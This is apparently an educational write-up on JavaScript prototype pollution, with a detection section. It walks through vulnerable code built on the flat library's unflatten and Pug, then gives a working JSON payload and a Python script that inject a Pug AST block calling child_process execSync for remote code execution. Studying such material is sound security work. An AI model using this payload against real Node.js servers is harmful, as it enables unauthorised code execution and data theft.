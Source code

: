 # **Prototype Pollution**

## **Introduction**

**Prototype Pollution** is a vulnerability that allows an attacker to manipulate the properties of an object’s
prototype. By modifying the object prototype, attackers can inject malicious properties or methods into all instances of
that object type, potentially leading to serious issues like remote code execution (RCE).

## **Understanding Prototype Pollution**

### **What is a Prototype?**

In JavaScript, objects inherit properties and methods from their prototype. Every object in JavaScript has a `__proto__`
property, which links to its prototype. By manipulating the `__proto__` object, it’s possible to inject properties or
methods into all instances of that prototype.

### **How Does Prototype Pollution Occur?**

Prototype Pollution happens when a user-controlled input can modify the prototype of an object using properties such as
`__proto__`, `constructor.prototype`, or `prototype`.

#### **Example of Vulnerable Code:**

```javascript
const { unflatten } = require('flat');

let data = {
    name: "John"
};

// User-controlled input
let payload = {
    "__proto__.admin": true
};

// Unflatten the payload
let obj = unflatten(payload);

// Checking the polluted object
console.log(obj.admin); // true
console.log(data.admin); // true (Polluted)
```

In the above example, the `unflatten` function allows users to insert arbitrary properties into the `__proto__` object,
polluting the prototype.

## **Attack Scenario: Exploiting Prototype Pollution in Node.js**

### **Vulnerable Application**

We analyze a vulnerable Node.js application using **Pug** templating and the **flat** package to process user input.

**Relevant Dependencies (from `package.json`):**

```json
{
    "dependencies": {
        "express": "^4.17.1",
        "flat": "5.0.0",
        "pug": "^3.0.0"
    }
}
```

### **Vulnerable Code Snippet**

```javascript
const { unflatten } = require('flat');
const pug = require('pug');

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes('Haigh')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Invalid artist name.'
        });
    }
});
```

### **Exploitation**

The `unflatten` function processes user input and is vulnerable to prototype pollution. By sending a malicious payload,
an attacker can inject properties into the `artist` object’s prototype, leading to remote code execution.

#### **Exploit Payload:**

```json
{
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}
```

In this case, the attacker injects a malicious `block` object into the prototype, which allows the execution of shell
commands on the server.

#### **Exploit Code (Python Script):**

```python
import requests

url = "http://localhost:1337/api/submit"

payload = {
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('$(cat flag*)')"
    }
}

r = requests.post(url, json=payload)
print(r.json())
```

## **Real-World Impact**

### **Remote Code Execution (RCE)**

In the example provided, the injected `block` property leads to RCE by executing a shell command (`cat flag*`) on the
server. The vulnerable application runs this command, exposing in this case a flag file, but it could be used to execute
any arbitrary code.

## **Detection**

### **Manual Testing**

- Test for prototype pollution vulnerabilities by submitting payloads that target `__proto__` or other prototype-related
  properties.

  Example payload for testing:

  ```json
  {
      "__proto__.polluted": true
  }
  ```

  If the application returns `true` for `polluted`, it is vulnerable.

### **Automated Tools**

- **Burp Suite Extensions**: Use Burp Suite with extensions like **Prototype Pollution Scanner** to automate the
  detection of prototype pollution vulnerabilities.

- **SAST/DAST Tools**: Incorporate static and dynamic application security testing tools into your pipeline to identify
  potential prototype pollution flaws.

## **Conclusion**

Prototype pollution is a critical web vulnerability, especially in JavaScript-based environments like **Node.js**. It
can lead to severe consequences such as remote code execution, privilege escalation, and denial of service. By ensuring
proper input validation, using secure libraries, and disabling unsafe features in templating engines, developers can
mitigate these risks effectively.

## **References**

- [Hacktricks - Pug Prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

